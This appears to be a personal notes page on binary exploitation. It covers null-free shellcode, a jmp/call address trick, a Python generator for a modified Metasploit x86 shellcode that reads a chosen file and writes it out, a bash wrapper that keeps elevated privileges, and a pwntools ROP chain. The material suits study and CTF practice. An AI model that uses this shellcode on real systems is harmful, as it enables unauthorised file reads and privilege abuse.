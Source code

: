 Note that the usually the base pointer is trashed during the exploting
process in a normal exploitation process, but the stack pointer is not.


 - http://www.blackhatlibrary.net/Shellcode/Null-free
 - [Error codes](http://www-numi.fnal.gov/offline_software/srt_public_context/WebDocs/Errors/unix_system_errors.html)

Since the standard ``/bin/sh`` is a link to ``/bin/bash`` that
droppes privileges when called, you can call instead a script
like the following

```python
#!/usr/bin/env python2
import os
os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
os.execlp("bash", "bash")
```

The following shellcode open a fixed file and then write its contents
of to a file descriptor passed as first argument into the stack:

## Stack-based

In this context you are to pratically programming with assembly
into a buffer.


### Retrieve buffer related address

This below is an example in which we do a jmp and a call back, in this
way we obtain from the stack the address from which the call is started:
(the code is for ``amd64``)

```asm
    /* call write(1, 4196356, 3) */
    jmp miao
start:
    pop rsi
    push (SYS_write) /* 1 */
    pop rax
    push 1
    pop rdi
    push 50
    pop rdx
    syscall
    
    ret
miao:    call start
.ascii "miao\0"
```
(is inspired from the original [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)).

```python
# linux/x86/read_file - 84 bytes
# http://www.metasploit.com
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
#
# Modified shell code that reads a file and write its contents in the file descriptor
# passed as first argument into the stack.
#
# TODO: make configurable the use of sys_sendto() and return to the caller.
import sys

if len(sys.argv) < 2:
    sys.stderr.write('usage: %s <PATH>' % sys.argv[0])
    sys.exit(1)

path = sys.argv[1]

def put_piece_into_stack(piece):
    length = len(piece)
    assert length <= 4

    null_byte_needed = length < 4

    if null_byte_needed:
        piece = 'x'*(4 - length) + piece

    return  null_byte_needed, ('\xb8%s' % piece) + \
            ('\xc1\xe8%c' % ((4 - length)*8) if null_byte_needed else '') + \
            '\x50'

def build_string_into_stack(path_string):
    '''Returns the instructions to put into the stack
    the path needed

    0x00000002   5               b87878786f  mov eax, 0x6f787878
    0x00000007   3                   c1e818  shr eax, 0x18
    0x0000000a   1                       50  push eax
    '''

    path_length = len(path_string)
    # split the path so that each piece fit into a 32 bits register
    path_componentes = [path_string[x:x + 4] for x in range(0, path_length, 4)]
    path_componentes.reverse()

    buf = ''

    for path_component in path_componentes:
        null_byte_needed, opcode = put_piece_into_stack(path_component)
        buf += opcode

    return buf


buf  = ""                             # NOTE: some offset are wrong since we have modified the original shellcode
buf += "\x89\xe5"                     # 0x00000000   2                     89e5  mov ebp, esp

buf += build_string_into_stack(path)

buf += "\x31\xc0"                     # 0x00000017   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000019   1                       40  inc eax
buf += "\x40"                         # 0x0000001a   1                       40  inc eax
buf += "\x40"                         # 0x0000001b   1                       40  inc eax
buf += "\x40"                         # 0x0000001c   1                       40  inc eax
buf += "\x40"                         # 0x0000001d   1                       40  inc eax
buf += "\x89\xe3"                     # 0x0000001e   2                     89e3  mov ebx, esp
buf += "\x31\xc9"                     # 0x00000020   2                     31c9  xor ecx, ecx
buf += "\xcd\x80"                     # 0x00000022   2                     cd80  int 0x80             sys_open()
buf += "\x89\xc3"                     # 0x00000024   2                     89c3  mov ebx, eax
buf += "\xb8\x40\x30\x20\x10"         # 0x00000026   5               b840302010  mov eax, 0x10203040
buf += "\xc1\xe8\x10"                 # 0x0000002b   3                   c1e810  shr eax, 0x10
buf += "\x50"                         # 0x0000002e   1                       50  push eax
buf += "\x29\xc4"                     # 0x0000002f   2                     29c4  sub esp, eax
buf += "\x31\xc0"                     # 0x00000031   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000033   1                       40  inc eax
buf += "\x40"                         # 0x00000034   1                       40  inc eax
buf += "\x40"                         # 0x00000035   1                       40  inc eax
buf += "\x89\xe7"                     # 0x00000036   2                     89e7  mov edi, esp
buf += "\x89\xf9"                     # 0x00000038   2                     89f9  mov ecx, edi
buf += "\x8b\x55\xf0"                 # 0x0000003a   3                   8b55f0  mov edx, [ebp-0x10]
buf += "\xcd\x80"                     # 0x0000003d   2                     cd80  int 0x80             sys_read()
buf += "\x89\xc2"                     # 0x0000003f   2                     89c2  mov edx, eax
buf += "\x31\xc0"                     # 0x00000041   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000043   1                       40  inc eax
buf += "\x40"                         # 0x00000044   1                       40  inc eax
buf += "\x40"                         # 0x00000045   1                       40  inc eax
buf += "\x40"                         # 0x00000046   1                       40  inc eax
buf += "\x8b\x5d\x04"                 # 0x00000047   3                   8b5d04  mov ebx, [ebp+0x4]
buf += "\xcd\x80"                     # 0x0000004a   2                     cd80  int 0x80             sys_write()
buf += "\x31\xc0"                     # 0x0000004c   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x0000004e   1                       40  inc eax
buf += "\x31\xdb"                     # 0x0000004f   2                     31db  xor ebx, ebx
buf += "\xcd\x80"                     # 0x00000051   2                     cd80  int 0x80             sys_exit()

sys.stdout.write(buf)
```

## ROP

```python
import sys

from pwnlib.rop import rop
from pwnlib import constants
from pwnlib.context import context

context.arch = 'amd64'
r = rop.ROP('libc.so.6')
r.write(constants.STDOUT_FILENO, 0x400639, 5)
r.exit()

sys.stderr.write(r.dump())

sys.stdout.write(str(r))
```
